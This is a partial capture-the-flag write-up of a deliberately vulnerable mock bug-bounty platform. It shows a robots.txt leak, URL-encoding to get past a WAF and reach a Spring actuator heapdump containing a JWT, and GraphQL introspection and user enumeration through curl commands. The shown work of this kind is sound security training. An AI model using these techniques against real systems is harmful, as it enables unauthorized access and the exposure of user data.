

# The Mission
Author: BuildHackSecure @ HackingHub

HackingHub has provided this CTF challenge!

Welcome to the BugBounty platform, you've submitted a report for Yahoo but oh no!! So has STÖK and it looks like you're going to get dupped!

Hack into the platform and change STÖK's report to duplicate first so you can grab the bounty!

You can login with the follow details:
Username: hacker
Password: password123

Submit the first flag you uncover within this challenge.

For Flag 6:

The chatbot on the website required some nudging.

For flag 1: 
Visitng /robots.txt
Response:
```
User-agent: *
Disallow: /internal-dash

#flag_1{858c82dc956f35dd1a30c4d47bcb57fb}
```

For Flag 2:

Visiting: /api/v1
Response: {"server":"openjdk:19-jdk:bountyapi.war","message":"Deprecated, please use v2"}

This reveals that springboot is being used.

Visiting: /api/v1/actuator 
Response: Whoop Whoop, you triggered the WAF!

Visiting: /api/v1/actuator
Response: {"flag":"flag_2{a67796e1232c71f5a37177550a98a054}","_links":{"self":{"href":"\/api\/v1\/actuator","templated":false},"headdump":{"href":"\/api\/v1\/actuator\/heapdump","templated":false}}}

Visiting: /api/v1/%61ctuator/heapdump
Response:Whoop Whoop, you triggered the WAF!

Visiting: /api/v1/%61ctuator/heapdump
Response: 
```
0x00007f9b3c1a2e80: 6a 61 76 61 2e 6c 61 6e 67 2e 53 74 72 69 6e 67  java.lang.String
0x00007f9b3c1a2e90: 40 35 63 39 65 66 61 34 0a 5b 52 75 6e 74 69 6d  @5c9efa4.[Runtime
0x00007f9b3c1a2ea0: 43 6c 61 73 73 65 73 5d 20 64 65 62 75 67 20 6d  Classes] debug m
0x00007f9b3c1a2eb0: 6f 64 65 20 65 6e 61 62 6c 65 64 0a 00 70 72 6f  ode enabled..pro
0x00007f9b3c1a2ec0: 63 65 73 73 4d 61 6e 61 67 65 72 3a 20 6a 61 76  cessManager: jav
0x00007f9b3c1a2ed0: 61 2e 75 74 69 6c 2e 63 6f 6e 63 75 72 72 65 6e  a.util.concurrent
0x00007f9b3c1a2ee0: 74 2e 46 6f 72 6b 4a 6f 69 6e 50 6f 6f 6c 24 57  t.ForkJoinPool$W
0x00007f9b3c1a2ef0: 6f 72 6b 65 72 40 31 61 66 66 38 66 66 0a 0a 70  orker@1aff8ff..p
0x00007f9b3c1a2f00: 70 6f 73 74 20 2f 61 70 69 2f 76 31 2f 69 6e 74  post /api/v1/int
0x00007f9b3c1a2f10: 65 72 6e 61 6c 2d 64 61 73 68 62 6f 61 72 64 2f  ernal-dashboard/
0x00007f9b3c1a2f20: 74 6f 6b 65 6e 20 48 54 54 50 2f 31 2e 31 0d 0a  token HTTP/1.1..
0x00007f9b3c1a2f30: 41 75 74 68 6f 72 69 7a 61 74 69 6f 6e 3a 20 42  Authorization: B
0x00007f9b3c1a2f40: 65 61 72 65 72 20 65 79 4a 68 62 47 63 69 4f 69  earer eyJhbGciOi
0x00007f9b3c1a2f50: 4A 49 55 7A 49 31 4E 69 49 73 49 6E 52 35 63 43  JIUzI1NiIsInR5cC
0x00007f9b3c1a2f60: 49 36 49 6B 70 58 56 43 4A 39 2E 65 79 4A 31 63  I6IkpXVCJ9.eyJ1c
0x00007f9b3c1a2f70: 32 56 79 62 6D 46 74 5A 53 49 36 49 6D 6C 75 64  2VybmFtZSI6Imlud
0x00007f9b3c1a2f80: 47 6B 69 66 51 2E 59 65 71 76 66 51 37 4C 32 35  GkifQ.YeqvfQ7L25
0x00007f9b3c1a2f90: 6F 68 68 77 42 45 35 54 70 6D 71 6F 32 5F 35 4D  ohhwBE5Tpmqo2_5M
0x00007f9b3c1a2fa0: 68 71 79 4F 43 58 45 37 54 39 62 47 38 39 35 55  hqyOCXE7T9bG895U
0x00007f9b3c1a2fb0: 6B 0d 0a 48 6F 73 74 3A 20 69 6E 74 65 72 6E 61  k..Host: interna
0x00007f9b3c1a2fc0: 6C 2D 74 65 73 74 69 6E 67 2D 61 70 70 73 0d 0a  l-testing-apps..
0x00007f9b3c1a2fd0: 43 6f 6e 74 65 6e 74 2d 54 79 70 65 3a 20 61 70  Content-Type: ap
0x00007f9b3c1a2fe0: 70 6c 69 63 61 74 69 6f 6e 2f 6a 73 6f 6e 0d 0a  plication/json..
0x00007f9b3c1a2ff0: 43 6f 6e 6e 65 63 74 69 6f 6e 3a 20 6b 65 65 70  Connection: keep
0x00007f9b3c1a3000: 2d 61 6c 69 76 65 0d 0a 0d 0a 7b 22 75 73 65 72  -alive....{"user
0x00007f9b3c1a3010: 6e 61 6d 65 22 3a 22 69 6e 74 69 22 7d 00 6a 61  name":"inti"}..ja
0x00007f9b3c1a3020: 76 61 2e 6e 65 74 2e 55 52 4c 43 6c 61 73 73 2e  va.net.URLClass.
0x00007f9b3c1a3030: 63 6f 6d 2f 65 78 61 6d 70 6c 65 2f 41 70 70 6c  com/example/Appl
```

For flag 4:  

On going to the settings page:


A new endpoint is called:
`/api/v2/graphql`
with the following payload:
```
{"query":"\n        query GetUser($id: ID!) {\n          user(id: $id) {\n            username\n            email\n          }\n        }\n        ","variables":{"id":"fd55a401-b110-4821-9155-add4653cb992"}}
```

Maybe we can dump all the ids via this graphql endpoint:

First get all the fields:
```sh
└─$ curl -X POST http://challenge.nahamcon.com:32712/api/v2/graphql \
  -H 'Content-Type: application/json' \
  -d '{"query":"{ __schema { types { name fields { name } } } }"}'

{"data":{"__schema":{"types":[{"name":"User","fields":[{"name":"id"},{"name":"username"},{"name":"email"}]},{"name":"ID","fields":null},{"name":"String","fields":null},{"name":"Query","fields":[{"name":"user"},{"name":"users"}]},{"name":"Boolean","fields":null},{"name":"__Schema","fields":[{"name":"description"},{"name":"types"},{"name":"queryType"},{"name":"mutationType"},{"name":"subscriptionType"},{"name":"directives"}]},{"name":"__Type","fields":[{"name":"kind"},{"name":"name"},{"name":"description"},{"name":"specifiedByURL"},{"name":"fields"},{"name":"interfaces"},{"name":"possibleTypes"},{"name":"enumValues"},{"name":"inputFields"},{"name":"ofType"},{"name":"isOneOf"}]},{"name":"__TypeKind","fields":null},{"name":"__Field","fields":[{"name":"name"},{"name":"description"},{"name":"args"},{"name":"type"},{"name":"isDeprecated"},{"name":"deprecationReason"}]},{"name":"__InputValue","fields":[{"name":"name"},{"name":"description"},{"name":"type"},{"name":"defaultValue"},{"name":"isDeprecated"},{"name":"deprecationReason"}]},{"name":"__EnumValue","fields":[{"name":"name"},{"name":"description"},{"name":"isDeprecated"},{"name":"deprecationReason"}]},{"name":"__Directive","fields":[{"name":"name"},{"name":"description"},{"name":"isRepeatable"},{"name":"locations"},{"name":"args"}]},{"name":"__DirectiveLocation","fields":null}]}}}
```

We have users name also, so we can query for all the users.

```sh
└─$ curl -X POST http://challenge.nahamcon.com:32712/api/v2/graphql \
  -H 'Content-Type: application/json' \
  -d '{"query":"{ users { id username email } }"}'

{"data":{"users":[{"id":"359fb73c-cbe8-4b1b-b7d9-fa26c4ed1f0b","username":"nahamsec","email":"nahamsec@bugbounty.ctf"},{"id":"5b2d7302-a424-4c41-9412-b378acedda08","username":"rhynorater","email":"rhynorater@bugbounty.ctf"},{"id":"15ee453d-18c7-419b-a3a6-ef8f2cc1271f","username":"stok","email":"flag_4{253a82878df615bb9ee32e573dc69634}"},{"id":"4d513e52-a79a-417a-8199-cc091220f340","username":"shubs","email":"shubs@bugbounty.ctf"},{"id":"bbccd010-bbd0-4b48-9c34-f4e151c4d9e4","username":"fattselimi","email":"fattselimi@bugbounty.ctf"},{"id":"30ec2071-eb96-4785-9a9a-c79b438f6181","username":"insiderphd","email":"insiderphd@bugbounty.ctf"},{"id":"cbba1083-0b54-4b66-aafd-350eea037d38","username":"inti","email":"inti@bugbounty.ctf"},{"id":"874d18fc-3479-4cae-a915-01b0bb7a6c49","username":"renniepak","email":"renniepak@bugbounty.ctf"},{"id":"fd55a401-b110-4821-9155-add4653cb992","username":"hacker","email":"hacker@bugbounty.ctf"}]}}
```

Here we got the flag 4.

curl 'http://challenge.nahamcon.com:32712/settings' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'Accept-Language: en-GB,en;q=0.9,en-US;q=0.8,en-IN;q=0.7' \
  -H 'Cache-Control: max-age=0' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -b 'PHPSESSID=ecd355fbb08598a920bc572cedcd98b5' \
  -H 'DNT: 1' \
  -H 'Origin: http://challenge.nahamcon.com:32712' \
  -H 'Referer: http://challenge.nahamcon.com:32712/settings' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36 Edg/136.0.0.0' \
  --data-raw 'username=hacker&email=hacker%40bugbounty.ctf&current_password=hacker123&new_password=password&confirm_password=password' \
  --insecure